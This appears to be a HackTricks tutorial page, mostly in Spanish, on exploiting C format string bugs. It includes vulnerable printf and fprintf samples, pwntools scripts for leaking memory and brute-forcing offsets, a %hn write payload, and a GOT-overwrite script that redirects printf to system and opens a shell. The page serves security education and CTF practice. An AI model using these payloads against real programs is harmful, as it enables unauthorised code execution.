 # Format Strings

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

If you are interested in **hacking career** and hack the unhackable - **we are hiring!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

## Basic Information

En C **`printf`** es una función que se puede usar para **imprimir** alguna cadena. El **primer parámetro** que esta función espera es el **texto en bruto con los formateadores**. Los **siguientes parámetros** esperados son los **valores** para **sustituir** los **formateadores** del texto en bruto.

Otras funciones vulnerables son **`sprintf()`** y **`fprintf()`**.

La vulnerabilidad aparece cuando un **texto de atacante se usa como el primer argumento** para esta función. El atacante podrá crear una **entrada especial abusando** de las capacidades de **formato de printf** para leer y **escribir cualquier dato en cualquier dirección (legible/escribible)**. Siendo capaz de esta manera de **ejecutar código arbitrario**.

#### Formatters:
```bash
%08x —> 8 hex bytes
%d —> Entire
%u —> Unsigned
%s —> String
%p —> Pointer
%n —> Number of written bytes
%hn —> Occupies 2 bytes instead of 4
<n>$X —> Direct access, Example: ("%3$d", var1, var2, var3) —> Access to var3
```
**Ejemplos:**

* Ejemplo vulnerable:
```c
char buffer[30];
gets(buffer);  // Dangerous: takes user input without restrictions.
printf(buffer);  // If buffer contains "%x", it reads from the stack.
```
* Uso Normal:
```c
int value = 1205;
printf("%x %x %x", value, value, value);  // Outputs: 4b5 4b5 4b5
```
* Con argumentos faltantes:
```c
printf("%x %x %x", value);  // Unexpected output: reads random values from the stack.
```
* fprintf vulnerable:
```c
#include <stdio.h>

int main(int argc, char *argv[]) {
char *user_input;
user_input = argv[1];
FILE *output_file = fopen("output.txt", "w");
fprintf(output_file, user_input); // The user input can include formatters!
fclose(output_file);
return 0;
}
```
### **Accediendo a Punteros**

El formato **`%<n>$x`**, donde `n` es un número, permite indicar a printf que seleccione el n-ésimo parámetro (de la pila). Así que si quieres leer el 4º parámetro de la pila usando printf, podrías hacer:
```c
printf("%x %x %x %x")
```
y leerías del primer al cuarto parámetro.

O podrías hacer:
```c
printf("%4$x")
```
y leer directamente el cuarto.

Nota que el atacante controla el parámetro de `printf`, **lo que básicamente significa que** su entrada estará en la pila cuando se llame a `printf`, lo que significa que podría escribir direcciones de memoria específicas en la pila.

{% hint style="danger" %}
Un atacante que controle esta entrada, podrá **agregar direcciones arbitrarias en la pila y hacer que `printf` las acceda**. En la siguiente sección se explicará cómo usar este comportamiento.
{% endhint %}

## **Lectura Arbitraria**

Es posible usar el formateador **`%n$s`** para hacer que **`printf`** obtenga la **dirección** situada en la **n posición**, siguiéndola y **imprimirla como si fuera una cadena** (imprimir hasta que se encuentre un 0x00). Así que si la dirección base del binario es **`0x8048000`**, y sabemos que la entrada del usuario comienza en la 4ta posición en la pila, es posible imprimir el inicio del binario con:
```python
from pwn import *

p = process('./bin')

payload = b'%6$s' #4th param
payload += b'xxxx' #5th param (needed to fill 8bytes with the initial input)
payload += p32(0x8048000) #6th param

p.sendline(payload)
log.info(p.clean()) # b'\x7fELF\x01\x01\x01||||'
```
{% hint style="danger" %}
Tenga en cuenta que no puede poner la dirección 0x8048000 al principio de la entrada porque la cadena se cortará en 0x00 al final de esa dirección.
{% endhint %}

### Encontrar el desplazamiento

Para encontrar el desplazamiento a su entrada, podría enviar 4 u 8 bytes (`0x41414141`) seguidos de **`%1$x`** y **aumentar** el valor hasta recuperar las `A's`.

<details>

<summary>Fuerza bruta printf offset</summary>
```python
# Code from https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak

from pwn import *

# Iterate over a range of integers
for i in range(10):
# Construct a payload that includes the current integer as offset
payload = f"AAAA%{i}$x".encode()

# Start a new process of the "chall" binary
p = process("./chall")

# Send the payload to the process
p.sendline(payload)

# Read and store the output of the process
output = p.clean()

# Check if the string "41414141" (hexadecimal representation of "AAAA") is in the output
if b"41414141" in output:
# If the string is found, log the success message and break out of the loop
log.success(f"User input is at offset : {i}")
break

# Close the process
p.close()
```
</details>

### Qué tan útil

Las lecturas arbitrarias pueden ser útiles para:

* **Volcar** el **binario** de la memoria
* **Acceder a partes específicas de la memoria donde se almacena información** **sensible** (como canarios, claves de cifrado o contraseñas personalizadas como en este [**desafío CTF**](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak#read-arbitrary-value))

## **Escritura Arbitraria**

El formateador **`%<num>$n`** **escribe** el **número de bytes escritos** en la **dirección indicada** en el parámetro \<num> en la pila. Si un atacante puede escribir tantos caracteres como desee con printf, podrá hacer que **`%<num>$n`** escriba un número arbitrario en una dirección arbitraria.

Afortunadamente, para escribir el número 9999, no es necesario agregar 9999 "A"s a la entrada, para hacerlo es posible usar el formateador **`%.<num-write>%<num>$n`** para escribir el número **`<num-write>`** en la **dirección apuntada por la posición `num`**.
```bash
AAAA%.6000d%4\$n —> Write 6004 in the address indicated by the 4º param
AAAA.%500\$08x —> Param at offset 500
```
Sin embargo, ten en cuenta que generalmente, para escribir una dirección como `0x08049724` (que es un NÚMERO ENORME para escribir de una vez), **se usa `$hn`** en lugar de `$n`. Esto permite **escribir solo 2 Bytes**. Por lo tanto, esta operación se realiza dos veces, una para los 2B más altos de la dirección y otra vez para los más bajos.

Por lo tanto, esta vulnerabilidad permite **escribir cualquier cosa en cualquier dirección (escritura arbitraria).**

En este ejemplo, el objetivo será **sobrescribir** la **dirección** de una **función** en la tabla **GOT** que se llamará más tarde. Aunque esto podría abusar de otras técnicas de escritura arbitraria a exec:

{% content-ref url="../arbitrary-write-2-exec/" %}
[arbitrary-write-2-exec](../arbitrary-write-2-exec/)
{% endcontent-ref %}

Vamos a **sobrescribir** una **función** que **recibe** sus **argumentos** del **usuario** y **apuntarla** a la **función** **`system`**.\
Como se mencionó, para escribir la dirección, generalmente se necesitan 2 pasos: Primero **escribes 2Bytes** de la dirección y luego los otros 2. Para hacerlo se usa **`$hn`**.

* **HOB** se llama a los 2 bytes más altos de la dirección
* **LOB** se llama a los 2 bytes más bajos de la dirección

Luego, debido a cómo funciona la cadena de formato, necesitas **escribir primero el más pequeño** de \[HOB, LOB] y luego el otro.

Si HOB < LOB\
`[address+2][address]%.[HOB-8]x%[offset]\$hn%.[LOB-HOB]x%[offset+1]`

Si HOB > LOB\
`[address+2][address]%.[LOB-8]x%[offset+1]\$hn%.[HOB-LOB]x%[offset]`

HOB LOB HOB\_shellcode-8 NºParam\_dir\_HOB LOB\_shell-HOB\_shell NºParam\_dir\_LOB

{% code overflow="wrap" %}
```bash
python -c 'print "\x26\x97\x04\x08"+"\x24\x97\x04\x08"+ "%.49143x" + "%4$hn" + "%.15408x" + "%5$hn"'
```
{% endcode %}

### Plantilla de Pwntools

Puedes encontrar una **plantilla** para preparar un exploit para este tipo de vulnerabilidad en:

{% content-ref url="format-strings-template.md" %}
[format-strings-template.md](format-strings-template.md)
{% endcontent-ref %}

O este ejemplo básico de [**aquí**](https://ir0nstone.gitbook.io/notes/types/stack/got-overwrite/exploiting-a-got-overwrite):
```python
from pwn import *

elf = context.binary = ELF('./got_overwrite-32')
libc = elf.libc
libc.address = 0xf7dc2000       # ASLR disabled

p = process()

payload = fmtstr_payload(5, {elf.got['printf'] : libc.sym['system']})
p.sendline(payload)

p.clean()

p.sendline('/bin/sh')

p.interactive()
```
## Cadenas de Formato a BOF

Es posible abusar de las acciones de escritura de una vulnerabilidad de cadena de formato para **escribir en direcciones de la pila** y explotar un tipo de vulnerabilidad de **desbordamiento de búfer**.

## Otros Ejemplos y Referencias

* [https://ir0nstone.gitbook.io/notes/types/stack/format-string](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
* [https://www.youtube.com/watch?v=t1LH9D5cuK4](https://www.youtube.com/watch?v=t1LH9D5cuK4)
* [https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak](https://www.ctfrecipes.com/pwn/stack-exploitation/format-string/data-leak)
* [https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/pico18\_echo/index.html)
* 32 bits, sin relro, sin canario, nx, sin pie, uso básico de cadenas de formato para filtrar la bandera de la pila (sin necesidad de alterar el flujo de ejecución)
* [https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/backdoor17\_bbpwn/index.html)
* 32 bits, relro, sin canario, nx, sin pie, cadena de formato para sobrescribir la dirección `fflush` con la función win (ret2win)
* [https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html](https://guyinatuxedo.github.io/10-fmt\_strings/tw16\_greeting/index.html)
* 32 bits, relro, sin canario, nx, sin pie, cadena de formato para escribir una dirección dentro de main en `.fini_array` (para que el flujo vuelva a repetirse una vez más) y escribir la dirección a `system` en la tabla GOT apuntando a `strlen`. Cuando el flujo regrese a main, `strlen` se ejecutará con la entrada del usuario y apuntando a `system`, ejecutará los comandos pasados.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Si estás interesado en una **carrera de hacking** y hackear lo inhackeable - **¡estamos contratando!** (_se requiere polaco fluido escrito y hablado_).

{% embed url="https://www.stmcyber.com/careers" %}

{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

Apoya a HackTricks

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.
{% endhint %}
